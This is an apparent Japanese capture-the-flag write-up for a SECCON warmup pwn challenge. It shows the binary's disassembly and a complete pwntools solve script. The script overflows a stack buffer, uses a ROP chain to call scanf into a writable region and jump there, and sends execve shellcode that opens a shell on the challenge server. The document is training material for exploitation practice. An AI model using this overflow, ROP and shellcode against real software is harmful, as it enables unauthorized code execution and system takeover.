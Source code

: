 ### 問題バイナリのアセンブラ(scanfとmain)
```scan.asm
00000000004005c0 <__isoc99_scanf@plt>:
  4005c0:	ff 25 12 06 20 00    	jmp    QWORD PTR [rip+0x200612]        # 600bd8 <__isoc99_scanf@GLIBC_2.7>
  4005c6:	68 04 00 00 00       	push   0x4
  4005cb:	e9 a0 ff ff ff       	jmp    400570 <.plt>
```
```main.asm
00000000004006b7 <main>:
  4006b7:	55                   	push   rbp
  4006b8:	48 89 e5             	mov    rbp,rsp
  4006bb:	48 83 ec 20          	sub    rsp,0x20
  4006bf:	48 8d 3d 3e 01 00 00 	lea    rdi,[rip+0x13e]        # 400804 <_IO_stdin_used+0x4>
  4006c6:	e8 b5 fe ff ff       	call   400580 <puts@plt>
  4006cb:	48 8d 45 e0          	lea    rax,[rbp-0x20]
  4006cf:	48 89 c6             	mov    rsi,rax
  4006d2:	48 8d 3d 42 01 00 00 	lea    rdi,[rip+0x142]        # 40081b <_IO_stdin_used+0x1b>
  4006d9:	b8 00 00 00 00       	mov    eax,0x0
  4006de:	e8 dd fe ff ff       	call   4005c0 <__isoc99_scanf@plt>
  4006e3:	48 8b 05 16 05 20 00 	mov    rax,QWORD PTR [rip+0x200516]        # 600c00 <stdout@@GLIBC_2.2.5>
  4006ea:	48 89 c7             	mov    rdi,rax
  4006ed:	e8 9e fe ff ff       	call   400590 <fclose@plt>
  4006f2:	48 8b 05 27 05 20 00 	mov    rax,QWORD PTR [rip+0x200527]        # 600c20 <stderr@@GLIBC_2.2.5>
  4006f9:	48 89 c7             	mov    rdi,rax
  4006fc:	e8 8f fe ff ff       	call   400590 <fclose@plt>
  400701:	b8 00 00 00 00       	mov    eax,0x0
  400706:	c9                   	leave  
  400707:	c3                   	ret    

```
### 解答スクリプト
このpythonスクリプトを実行するだけでシェルが奪えます。
```attack.py
from pwn import *

s = remote("pwn-neko.chal.seccon.jp", 9001)
elf = ELF("chall")
context.binary = elf

rop = ROP(elf)
# scanf("%s", 0x600000)
rop.call(0x4005c0, [next(elf.search(b"%s")), 0x600000])
rop.call(0x600000)
s.sendlineafter(
  "Welcome to Pwn Warmup!\n",
  b"a"*0x28+rop.chain())

# http://shell-storm.org/shellcode/files/shellcode-806.php
s.sendline(
  "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53"
  "\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")

s.interactive()
```
---
```a.py
from pwn import *
```
この問題含め、多くの場合Gallopsledさん開発の[Pwntools](https://github.com/Gallopsled/pwntools)というモジュールをインポート(Cのinclude的な)してpythonスクリプトを構成し、それを問題サーバーに送り付けて解いていきます。
